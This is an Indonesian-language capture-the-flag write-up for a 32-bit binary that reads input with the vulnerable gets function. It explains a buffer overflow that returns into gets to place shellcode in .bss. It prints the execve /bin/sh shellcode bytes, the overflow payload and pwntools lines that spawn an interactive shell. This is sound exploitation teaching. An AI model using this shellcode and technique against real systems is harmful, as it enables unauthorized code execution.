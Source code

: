 Diberikan suatu file binary. File tersebut meminta masukan input lalu mencetak ulang input tersebut. Penerimaan input menggunakan
fungsi gets yang vulnerable terhadap buffer overflow. Setelah di periksa keamanannya dengan command "checksec" ternyata proteksi
file binary tersebut sangat minim, sehingga kita bisa melakukan eksekusi shellcode.

```
Hal-hal yang dibutuhkan:
1. Alamat "call gets"
2. Alamat bss
```
Kita membutuhkan alamat .bss untuk menyimpan dan mengeksekusi shellcode, karena data yang ada di .bss merupakan data executable.
Kita juga membutuhkan fungsi gets sebagai media untuk menyimpan input ke bss.

```
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
peilot = 'A'*(0x44+4)+p32(gets_call)+p32(bss_address)+p32(bss_address)
```
Karakter 'A'*(0x44+4) untuk menimpa buffer, lalu alamat call gets untuk memanggil gets, lalu alamat bss sebagai return address,
lalu alamat bss lagi sebagai argumen dari fungsi gets (tempat menyimpan teks yang di terima gets).

```
Eksekusi :
p.sendline(peilot)
p.sendline(shellcode)
p.interactive()
$ ls
$ cat flag
```
